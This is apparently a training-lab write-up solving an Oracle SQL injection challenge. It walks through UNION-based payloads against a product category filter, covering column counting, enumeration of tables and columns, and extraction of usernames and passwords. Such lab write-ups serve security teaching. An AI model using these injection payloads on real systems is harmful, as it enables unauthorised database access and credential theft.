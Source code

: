 # SQL injection attack, listing the database contents on Oracle
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.\
\
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.\
\
To solve the lab, log in as the administrator user.

# Solution
`/filter?category=Lifestyle’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Lifestyle' order by 1--` \
`/filter?category=Lifestyle' order by 2--` \
`/filter?category=Lifestyle' order by 3--` -> Error -> Number of columns = 2

## Determining the types of columns
`/filter?category=Lifestyle' union select 'a','a' from dual--` -> Both columns are string type
## Listing tables
`/filter?category=' union select table_name, null from all_tables--` -> Listing tables

Target table name: `USERS_NSISSW`
## Listing columns
Listing column names in table `USERS_NSISSW`
```
/filter?category=' union select column_name, null from all_tab_columns where table_name = 'USERS_NSISSW'--
```
Retrieved column names: `PASSWORD_RSEIJK`, `USERNAME_DVHVRC`.

## Retrieving creadentials
```
/filter?category=' union select USERNAME_DVHVRC, PASSWORD_RSEIJK from USERS_NSISSW--
```
